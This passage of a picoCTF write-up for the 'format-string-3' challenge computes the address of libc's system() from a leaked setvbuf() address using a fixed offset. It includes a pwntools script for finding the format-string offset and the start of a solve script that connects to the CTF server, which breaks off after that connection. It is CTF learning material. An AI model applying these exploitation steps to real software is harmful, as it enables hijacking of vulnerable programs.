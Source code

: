 ```

Because the adress changes each time on execution we can't really hardcode a value onto the function to overwrite but another lazy way to tackle this is to find out the difference between system() and setvbuf() . A more techincal explanation would be even with PIE enabled, the relative offset between functions inside libc will still be same '


By subtracting the `system()` address from the `setvbuf()` address:

```
0x7fc6926263f0 (setvbuf)
- 0x7fc6925fb760 (system)
= 0x2cac0 (offset between them)
```

This offset (`0x2cac0`) stays the same across runs (as long as the same libc is used), so now I can always compute:

```python
system_address = leaked_setvbuf - 0x2cac0
```

This should be the runtime adress difference 


Also i forgot to mention on how to find the offset to enter for pwntools at the end  

```from pwn import *

context.binary = './format-string-3'
context.bits = 64
context.arch = 'amd64'

elf = ELF('./format-string-3')

def send_payload(payload):
    p = process('./format-string-3')
    p.sendline(payload)
    return p.recvall()

offset = FmtStr(send_payload).offset
print(f"Offset is: {offset}")
```


this is a lazy skid way to find the offsets of a binary 


<img width="764" height="934" alt="image" src="https://github.com/user-attachments/assets/912d2096-e26d-4f70-af5d-75348e5e14d9" />


The final solve script 
```python3

from pwn import *

# Set context for 64-bit binary bc pwn tolls is 32 bit natively 
context.binary = ELF('./format-string-3')
context.update(arch='amd64', os='linux', bits=64)
elf = context.binary


HOST, PORT = 'rhea.picoctf.net', 60973
REMOTE = True


s = remote(HOST, PORT) if REMOTE else elf.process()

```